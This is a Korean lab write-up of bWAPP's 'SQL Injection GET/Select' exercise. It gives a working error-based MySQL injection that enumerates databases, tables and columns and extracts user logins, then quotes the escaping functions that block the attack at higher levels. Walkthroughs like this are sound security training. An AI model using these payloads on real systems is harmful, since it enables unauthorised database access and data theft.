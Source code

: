```yaml
---
layout: single
title: (bWAPP)SQL Injection GET/Select
categories: Web-vuln
tag: [sql injection, sql, injection, bwapp, bee box, GET, OWASP TOP 10, OWASP]
toc: true
author_profile: false
---
```

# 검증 로직
> Low Level 에서는 보안 대책이 적용되어 있지 않다.

## Level - Low
![그림 1-1](/assets/image/bwapp/sqli-select/image1.png)
- Select 기능이 존재하고 영화 제목을 질의할 수 있다. 또한 해당 질의의 응답으로 게시판 형식이 출력된다.
- 출력되는 레코드는 하나의 열만 출력하는 듯 하다.
- GET 형식으로 데이터가 전송된다.

```
bWAPP/sqli_2.php?movie=4&action=go
```

- GET 형식으로 날라갈 때 파라미터를 보게되면 movie 파라미터에 int 형식으로 전송된다.

![그림 1-2](/assets/image/bwapp/sqli-select/image2.png)

```
bWAPP/sqli_2.php?movie=1 and 1=1-- &action=go
```

- '(싱글쿼터) 입력시 DBMS Error 가 발생하며, MySQL 사용 유/무 및 Injection 취약 유/무를 확인했다.

> 해당 실습에서는 Error Based가 가능하여 해당 로직의 경우 Error Based 보다 UNION Based 가 시간적으로나 모든 면에서 효율적이나 실습을 위해 Error Based 로 진행하였다.

```sql
(SELECT 1 FROM (SELECT COUNT(*),concat(select schema_name from information_schema.schemata limit 0,1,FLOOR(rand(0)*2))x FROM information_schema.schemata GROUP BY x limit 0,1 )a)--
```

- 해당 구문을 통해 데이터베이스를 순차적으로 하나씩 확인이 가능하다.

```sql
(SELECT 1 FROM (SELECT COUNT(*),concat((select table_name from information_schema.tables where table_schema='bWAPP' limit 0,1),FLOOR(rand(0)*2))x FROM information_schema.tables GROUP BY x limit 0,1 )a)--
```

- 테이블 또한 위 구문을 통해 순차적으로 확인이 가능하다

```sql
(SELECT 1 FROM (SELECT COUNT(*),concat((select column_name from information_schema.columns where table_schema='bWAPP' and table_name='users' limit 0,1),FLOOR(rand(0)*2))x FROM information_schema.columns GROUP BY x limit 0,1 )a)--
```

- 컬럼명 조회를 위한 구문이며, 순차적으로 접근하며 login 컬럼이 발견되어 해당 컬럼에 대한 데이터 추출 시도를 하였다.

```sql
(SELECT 1 FROM (SELECT COUNT(*),concat((select login from bWAPP.users limit 0,1),FLOOR(rand(0)*2))x FROM information_schema.tables GROUP BY x limit 0,1 )a)--
```

![그림 1-3](/assets/image/bwapp/sqli-select/image3.png)
- 성공적으로 데이터를 추출했다.

## Medium & High

```php
function sqli_check_1($data)
{
    return addslashes($data)
}

function sqli_check_2($data)
{
    return mysql_real_escape_string($data);
}
```

1. Medium Level 에서는 addslahes() 함수를 사용하여 ‘(싱글쿼터 )를 입력하게되면 \ 를 앞에 붙여 ‘(싱글쿼터) 사용을 막고 있다. 해당 search 구문인 ‘%%’ 로 이루어져 있어 공격이 성립되지 않는다.
2. High Level 에서는 mysql_real_escape_string() 함수를 사용하여 메타문자를 방지하고 있다.
3. 해당 문제에서 Medium 과 High Level은 공격이 성립되지 않는다.